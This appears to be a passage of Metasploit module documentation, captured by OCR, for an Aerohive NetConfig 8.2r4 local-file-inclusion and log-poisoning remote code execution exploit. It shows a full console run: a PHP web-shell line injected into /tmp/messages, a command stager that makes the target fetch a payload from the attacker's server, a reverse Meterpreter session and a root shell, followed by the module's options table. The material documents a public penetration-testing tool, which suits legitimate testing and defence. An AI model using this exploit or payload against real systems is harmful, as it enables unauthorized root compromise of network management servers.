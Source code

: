 ```
   --  ----
   0   Linux


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse TCP handler on 192.168.1.229:4000
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Using URL: http://0.0.0.0:8080/tCSLFVW4TC
[*] Local IP: http://192.168.1.229:8080/tCSLFVW4TC
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.1.151 (curl/7.50.1) requested /tCSLFVW4TC
[*] Sending payload to 192.168.1.151 (curl/7.50.1)
[*] Sending stage (902096 bytes) to 192.168.1.151
[!] Erasing the log poisoning evidence will require manually editing/removing the line in /tmp/messages that contains the poison command:
   <?php system($_POST['PPv9j']);?>
[!] Please note that any modifications to /tmp/messages, even via sed, will render the target (temporarily) unexploitable. This state can last over an hour.
[!] Deleting /tmp/messages or clearing out the file may break the application.
[*] Meterpreter session 23 opened (192.168.1.229:4000 -> 192.168.1.151:57350 ) at 2021-11-02 16:51:28 +0000
[*] Server stopped.

meterpreter > shell
Process 2637 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
grep 'php system' /tmp/messages
2021-11-02 11:51:26 notice  ah_webui: security: Admin "<<?php system($_POST['PPv9j']);?>>" failed to log in
```

### Aerohive NetConfig 8.2r4 - Linux target - AUTO_CLEAN_LOG true
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  true             yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
```